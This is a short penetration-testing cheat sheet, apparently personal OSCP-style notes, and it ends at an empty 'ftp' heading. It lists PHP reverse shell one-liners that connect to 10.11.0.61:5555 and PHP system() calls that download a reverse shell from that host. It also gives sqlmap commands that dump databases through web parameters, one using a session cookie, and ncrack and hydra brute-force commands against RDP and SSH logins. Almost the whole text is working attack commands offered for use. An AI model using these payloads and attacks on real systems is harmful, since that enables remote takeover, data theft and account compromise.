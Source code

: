 ### Reverse shell payloads

```php
<?php shell_exec("bash -i >& /dev/tcp/10.11.0.61/5555 0>&1") ?>

<?php shell_exec("nc -e /bin/sh 10.11.0.61 5555") ?>

<?php $sock=fsockopen("10.11.0.61",5555);exec("/bin/sh -i <&3 >&3 2>&3"); ?>

```


### File Upload

```bash
# BSD ftp oneliner to download file to webserver
<?php system("ftp -4 -d -v -o /usr/local/databases/blah.php ftp://offsec:password@10.11.0.61//php-reverse-shell.php") ?>

# BSD wget alternative
<?php system("fetch http://10.11.0.61:8000/php-reverse-shell.php -o /tmp/sh.php") ?>
```


## SQLi


### sqlmap
```bash
sqlmap -u "http://website/wp/wp-content/plugins/wp-forum/feed.php?topic=-4381 " --dbms=mysql --technique=U --union-cols=7 --random-agent --dump

sqlmap -u "http://website/edit_period.php?period_id=1 " --cookie="PHPSESSID=h7gtd8seldqt6vfa9igebn4tu1" --dbms=mysql --level=5 --risk=3
```
# Services

## RDP

```bash
ncrack -vv --user offsec -P password-file.txt rdp://<host-ip>
```bash

## ssh


```bash
hydra -l root -P password-file.txt <host-ip> ssh
```

## ftp
